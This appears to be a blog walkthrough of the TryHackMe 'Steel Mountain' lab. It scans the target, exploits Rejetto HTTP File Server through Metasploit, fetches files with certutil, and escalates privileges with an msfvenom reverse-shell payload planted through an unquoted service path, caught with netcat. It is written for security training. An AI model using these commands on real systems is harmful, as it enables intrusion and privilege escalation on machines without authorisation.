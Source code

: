 ```yaml
---
title: "Steel Mountain"
datePublished: Fri Aug 04 2023 01:48:21 GMT+0000 (Coordinated Universal Time)
cuid: clkvxfn7l000409mgdiuw5j7o
slug: steel-mountain
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691592346728/4d07143c-d07a-45ae-8a94-ed86a72b8011.png
tags: ctf, 2articles1week, cybersecurity-1, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). This room is designed to test our Windows OS enumeration skills. We will use Metasploit to gain an initial foothold and then use PowerShell to enumerate the machine and escalate our privileges to Administrator.

### Step 1: Nmap

Note: ICMP is disabled, so we'll have to use the `-Pn` flag.

```bash
nmap -Pn -p- 10.10.0.5 -vvv
```

```plaintext
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
8080/tcp  open  http-proxy    syn-ack ttl 125
47001/tcp open  winrm         syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49155/tcp open  unknown       syn-ack ttl 125
49156/tcp open  unknown       syn-ack ttl 125
49169/tcp open  unknown       syn-ack ttl 125
49170/tcp open  unknown       syn-ack ttl 125
```

From this scan, we can tell that there are two web servers, one of which will be our attack vector to get an initial foothold. Visiting the site on port 80 reveals nothing more than a static page for an employee of the month. Looking at the source code helps us identify a name, *Bill Harper*.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113410117/78e26866-6de1-4595-be30-97a365a1f41d.png align="center")

Moving on over to port 8080 proves to be a little more useful. Right off the bat, we can tell this is a user panel to an HTTP File Server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113421551/bc9e5d0c-c6e1-4afa-b566-06f0457b7432.png align="center")

Looking at the source code helps us narrow it down to a `Rejetto HTTP File Server`. This is great news because this version is vulnerable to an RCE and Metasploit has a module for it called `rejetto_hfs_exec`.

### Step 2: Metasploit

From here we want to search for the `rejetto` module and configure the options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113447324/e218eed9-4f8a-4eba-9d05-7524c6b5065a.png align="center")

After properly configuring the module and typing `exploit`, we get a meterpreter session and pop a shell to grab our first flag located in `C:\Users\bill\Deskto`p. Use `type user.txt` to view it from the command line.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113460353/562ce6d7-e56d-4eac-a48b-91d53837ca0b.jpeg align="center")

### Step 3: Privilege Escalation

To enumerate this machine, we will use `winPEAS`. You can download the latest version [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe).

Start a Python server:

```bash
python3 -m http.server 8000
```

Upload `winPEAS` to the victims `C:\Users\bill\Desktop` directory using `certutil.exe`.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/winPEASany_ofs.exe winPEASany_ofs.exe
```

Run it by typing `winPEASany_ofs.exe` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113544053/f7884b90-58a2-4667-8890-5edb05a79ea5.png align="center")

An interesting service called `AdvancedSystemCareService9` is missing quotes and has a space in between the application name, which means we can escape it and run a program called "`Advanced.exe`" with a reverse shell.

Let's fire up `msfvenom` and generate a payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o Advanced.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113567782/e5c99dee-d106-4144-97c9-93556990079a.png align="center")

Startup a Python server and transfer the payload over using `certutil`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113578290/4def3399-0d65-4e33-b741-97c14bfa9e6a.png align="center")

Move it to "`C:\Program Files (x86)\IObit\"`, and be sure to put the file path in quotes due to the space.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113586235/85a1fdb6-3607-409b-a1ec-f298d39db15e.png align="center")

Now we want to stop the `AdvancedSystemCareService9` service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113596097/f50abfb1-56d2-4a7e-9f8d-4c63d9d49cfa.png align="center")

Start a netcat listener to catch the reverse shell.

```bash
nc -lvnp 1337
```

Start the `AdvancedSystemCareService9` service back up.

### Step 4: Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113623575/0623872a-2d25-4ac6-9184-30c48c6e7d1a.png align="center")

Pwned! From here we can grab the last flag found in `C:\Users\Administrator\Desktop`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113632364/117dcb66-121f-481e-88b2-32df16cf5710.jpeg align="center")

I hope you enjoyed this walkthrough of the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.